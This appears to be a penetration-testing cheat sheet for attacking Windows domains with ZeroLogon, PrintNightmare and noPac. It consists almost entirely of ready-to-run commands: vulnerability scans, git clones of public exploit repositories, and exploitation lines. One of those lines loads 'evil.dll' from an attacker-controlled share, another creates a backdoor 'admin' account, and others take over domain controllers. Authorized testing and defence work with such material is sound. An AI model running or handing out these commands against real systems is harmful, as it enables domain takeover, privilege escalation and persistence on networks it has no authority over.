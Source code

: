 ## 🔗 Tool Integration

### Vulnerability Detection
```bash
# Comprehensive vulnerability scanning
nmap -sV --script vuln,smb-vuln-* target_range

# CrackMapExec modules
crackmapexec smb target_range -M zerologon
crackmapexec smb target_range -M printnightmare

# Specialized tools
python3 zerologon_tester.py DC_NAME DC_IP
```

### GitHub Resources for Exploitation Tools
```bash
# PrintNightmare - cube0x0/CVE-2021-1675 (Featured in Screenshot)
git clone https://github.com/cube0x0/CVE-2021-1675.git
# Contains: CVE-2021-1675.py, SharpPrintNightmare, PowerShell modules
# Description: "C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527"

# ZeroLogon - SecuraBV/CVE-2020-1472
git clone https://github.com/SecuraBV/CVE-2020-1472.git
# Contains: zerologon_tester.py, exploitation scripts

# Sam the Admin - Ridter/noPac
git clone https://github.com/Ridter/noPac.git
# Contains: noPac.py, scanner.py

# Alternative PrintNightmare implementations
git clone https://github.com/calebstewart/CVE-2021-1675.git
git clone https://github.com/ly4k/PrintNightmare.git
```

### Exploitation (With Approval)
```bash
# ZeroLogon exploitation
python3 cve-2020-1472-exploit.py DC_NAME DC_IP

# PrintNightmare exploitation (cube0x0 implementation from screenshot)
python3 CVE-2021-1675.py target_ip/user:password@target_ip
python3 CVE-2021-1675.py 'domain/user:password@target_ip' -dll '\\attacker_ip\share\evil.dll'

# Alternative PrintNightmare methods
SharpPrintNightmare.exe C:\Windows\System32\kernelbase.dll \\target_ip
Invoke-Nightmare -DriverName "1337" -NewUser -Username "admin" -Password "P@ssw0rd123!"

# Sam the Admin exploitation
python3 noPac.py domain/user:password -dc-ip DC_IP -use-ldap
```
